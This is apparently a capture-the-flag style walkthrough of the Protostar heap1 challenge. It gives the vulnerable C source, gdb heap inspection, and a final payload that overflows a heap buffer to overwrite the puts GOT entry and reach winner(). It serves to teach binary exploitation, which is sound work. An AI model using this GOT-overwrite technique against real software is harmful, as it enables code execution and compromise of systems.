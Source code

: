 ## Global Offet Table overwrite

heap1.c from protostar

```clike
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {  
  int priority;
  char *name;
};

void winner()  
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)  
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

understanding source code   
 - `struct internet *i1, *i2, *i3;` -> program has 3 pointers
 - `i1->name` & `i2->name` are respectively allocated at heap memory with 8 bytes
 - user inputs are copying to `i1->name` & `i2->name`

debugging in gdb
 - we will break at strcpy and then we will examine heap in gdb
 - `gdb -q ./heap1` -> load the program with gdb
 - `set disassembly-flavor intel` -> set disassembly result to intel
 - `disas main` -> disassemble main function to set a breakboint
 - `break *main+127` -> set breakpoint at first strcpy
 - `run` -> run program to know heap address
 - `info proc map`- > viewing heap address -> `0x804a000`

defining hook for better debugging

```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/32x 0x804a000
>x/2i $eip
>end
```

 - `run AAAA BBBB` -> run program to examine heap chunks

result
```
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
``` 
heap cunks

i1 heap chunk

    [ 0x00000000      0x00000011      0x00000001      0x0804a018 ]
    [ prev_size       chunk_size      i1->priority    i1->name   ]

 - `0x11 = 17 bytes` 
 - `0x0804a018` -> address of i1->name to store argv[1]

i2 heap chunk

    [ 0x00000000      0x00000011      0x00000002      0x0804a038 ]
    [ prev_size       chunk_size      i1->priority    i1->name   ]

 - `0x11 = 17 bytes` 
 - `0x0804a038` -> address of i2->name to store argv[2]

execute after strcpy

```
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
```
 - `0x41414141- AAAA` is stored in `0x0804a018` 
 - `0x42424242- BBBB` is stored in `0x0804a038` 
 - we have access to write at `0x0804a018` so we can overwrite `0x0804a038` , simple!
 - `run $(python -c 'print "A"*24') BBBB` -> test overflow

result

```
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
```

 - bingo! we can modify i2->name
 - if we can modify specific address, the only thing to do is overwriting global offest table
- `disas main` -> checking the program has function call from PLT ( procedure linkage table ) 
- `0x08048561 <main+168>:  call   0x80483cc <puts@plt>` -> this challenge has a call for puts

viewing the adreess in GOT

```
(gdb) x 0x80483cc
0x80483cc <puts@plt>:   jmp    DWORD PTR ds:0x8049774
(gdb) x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:   rol    BYTE PTR [ebx+0x804],cl
```

 - `0x8049774` -> the address we need to overwrite
 - `0x0804a038 = \x38\xa0\x04\x08` -> the address of i2->name
 - `run $(python -c 'print "A"*20+"\x38\xa0\x04\x08"') BBBB` -> testing to modify

result

```
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```

 - its worked !  time to overwrite GOT address
 - `0x8049774 = \x74\x97\x04\x08` -> GOT address
 - `disas winner` -> view winner address
 - `0x08048494 = \x94\x84\x04\x08` -> winer address
 - `run $(python -c 'print "A"*20+"\x74\x97\x04\x08"') $(python -c 'print "\x94\x84\x04\x08"')` -> final payload

result

```
$ ./heap1 $(python -c 'print "A"*20+"\x74\x97\x04\x08"') $(python -c 'print "\x94\x84\x04\x08"')
and we have a winner @ 1544380822
```
 - Yeah! we made it

---
